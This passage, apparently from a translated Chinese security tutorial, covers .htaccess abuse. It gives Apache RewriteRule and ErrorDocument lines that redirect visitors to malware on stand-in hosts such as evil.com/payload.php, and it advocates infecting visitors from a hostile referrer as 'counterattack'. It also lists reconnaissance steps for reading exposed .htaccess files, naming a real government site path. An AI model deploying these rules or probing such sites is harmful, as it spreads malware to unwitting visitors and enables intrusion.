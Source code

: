 这是在黑客社区赚钱的一种流行方式，因为许多网站将流量推送到他们的域名，黑客通过修改排名靠前的Alexa或Google PR排名的网站的htaccess文件的方式，将大量的流量转换成高额的报酬。  
 
另外需要注意的是，通过在你自己的网站上使用htaccess规则，也可以作为一个防御机制。例如，想象一下你目前正在运营一个网站，并且您知道在线黑客论坛的用户正在尝试定位您的网站，那么你可以设置htaccess规则，以便任何从恶意网站直接进入您网站的人都被重定向到恶意软件，并在有机会造成任何损害之前先行反击。如果你知道来自evil-site.com的人正试图定位你的网站，那么你可以设置一个htaccess规则，如下所示：  
```
RewriteEngine On
RewriteCond %{HTTP_REFERER} .*evil-site.com
RewriteRule ^(.*)$ http://hack-the-hackers.com/malware.ext [R=301,L]
```
除了上述用恶意软件感染站点用户的方法之外，通过使用错误页面也可以实现类似的事情。 您可以添加htaccess规则，以便在触发常见的HTTP状态码错误时将用户重定向到恶意软件：  
```
ErrorDocument 403 http://evil.com/payload.php
ErrorDocument 404 http://evil.com/payload.php
ErrorDocument 500 http://evil.com/payload.php
```

### 通过htaccess进行信息泄露

通过htaccess文件有两种主要的信息泄露形式。 一种需要访问受感染的服务器，另一种不需要。  
 
由于服务器配置错误或缺少默认的拒绝规则，有时htaccess文件可以被任何人读取。 进行渗透测试时，检查htaccess是否可读是非常有用的（10次中有9次不会），所以你可以看到哪些重写规则以及其他限制或设置。 你会惊讶的发现信息可以被泄露，你会惊讶于你会经常遇到不能正确配置他们的服务器或HTTP 403的htaccess文件。 
 
谷歌索引的大多数网站都有可读的.htaccess文件，搜索 filetype:htaccess    

检查你是否可以在正在执行审核的网站上对.htaccess文件进行读操作是十分有用的。 要执行此操作，只需导航到你正在测试的网站上的以下URL：
`http://example.com/.htaccess`  

通常情况下，你将收到一个HTTP 403响应，但在某些情况下，你将有权限读取.htaccess 。还值得指出的是，该文件可能并不一定是被命名为.htaccess，有几个常见的变化需要注意：  
```
OLD.htaccess
1.htaccess
dot.htaccess
backup.htaccess
_.htaccess
-.htaccess
```
除此之外，htaccess将成为特定CMS内的文本文件（一些例子是Joomla和OpenCart） - 所以根据服务器运行的CMS，有时候检查htaccess.txt是否可读十分有必要。 这里是一个例子（在Joomla安装）：  
`http://www.nationalcrimeagency.gov.uk/htaccess.txt`  